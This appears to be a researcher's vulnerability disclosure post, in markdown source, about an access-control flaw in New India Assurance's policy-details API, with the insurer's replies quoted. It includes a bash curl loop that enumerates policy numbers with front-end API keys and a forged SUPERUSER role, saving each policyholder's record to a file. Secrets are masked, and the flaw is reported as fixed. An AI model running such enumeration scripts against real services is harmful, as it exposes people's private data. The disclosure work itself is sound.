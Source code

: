 ```yaml
---
title: The New India Assurance Co Ltd Alleged Vulnerability 2024
date:
  created: 2025-08-13
  updated: 2025-08-13
---
```


An "alleged" vulnerability in the [New India Assurance](https://www.newindia.co.in/portal/login/customer) website allowed downloading sensitive personal information of policyholder simply by the policy number.

Summary of the "alleged" vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [getPolicyDetails](#1-getpolicydetails)  | 31 October 2024 | before 18 November 2024 | Less than 18 | not assigned due to non-reproducibility (due to delay in reporting it to CERT after reporting it to NIA) |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

It is important to note that the company denied existence of any vulnerability.

> Thank you for your valuable feedback. We would like to inform you that your
> concerns have been reviewed by the relevant team, and it has been confirmed that
> the system does not permit downloading of other insured details. We assure you that
> NIA is committed to maintaining the safety and security of the customers and will
> continue to do so.
> We consider the matter resolved and are closing it accordingly.

After providing them with a sample JSON file, they replied as follows:

> Dear Sir,
>
> Thank you very much for your revert and inputs.
>
> We really appreciate your concern on the matter and seriousness associated with it.
>
The  fact of matter is that we are having a managed SOC and as soon as we received your alert, we had shared the same with our partners for their response post which immediately we sought the services of Cert-In empanelled  Independent Assurance Auditor. Based on their observations, we updated both Cert-In as well as IRDA on this issue and shared our response to your query.  There was no intention of covering up and NIA believes in collaborative efforts to mitigate vulnerabilities. We are very much interested to learn more on this issue/other cyber security related  issues from you and our INFOSEC team will > coordinate with you to seek your appointment and meet you in person, if it is acceptable to you, to learn more and to infuse improvements.
>
> We once again thank you for the inputs and support.
>
> $$$
>
> Chief Manager,
>
> Corporate Finance & Accounts Dept.,
-----

### 1. getPolicyDetails

The API relied on headers `api_key` and `checksum` but these were available in the front-end code itself, and were not tied to any user session. `userid` and customer ID were also not authenticated or signed.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
for POLICY_NUMBER in $$$$$$$$ $$$$$$$$; do
    curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
    -H 'customerName: CUSTOMER' \
    -H 'typeOfCustomer: CUSTOMER' \
    -H 'api_key: $$$$$$$$' \
    -H 'checksum: $$$$$$$$' \
    -H 'applicationid: portal' \
    -H 'userid: CUSTCG0000' \
    --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"'"$POLICY_NUMBER"'","processType":"NB","productCode":"PU"},"productCode":"PU"}' \
    -o policy_leak_$POLICY_NUMBER.json
done
```

<details>
<summary>Sample output</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_nia/nia_vuln_1.json"
```
</details>

### $$ Alleged fix

After the "alleged" fix, the new curl request was as follows. Observe the new header `X-Auth-Token` and the additional `Cookie` header.

```bash title="sample_script_fixed.sh" linenums="1" hl_lines="2 8"
curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
 -H 'X-Auth-Token: $$$$$$$$' \
 -H 'customerName: CUSTOMER' \
 -H 'typeOfCustomer: CUSTOMER' \
 -H 'api_key: $$$$$$$$' \
 -H 'checksum: $$$$' \
 -H 'applicationid: portal' \
 -H 'Cookie: citrix_ns_id=$$$$$$$$' \
 -H 'userid: CUSTCG0000' \
 --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"$$$$$$$$","processType":"NB","productCode":"PU"},"productCode":"PU"}'
```
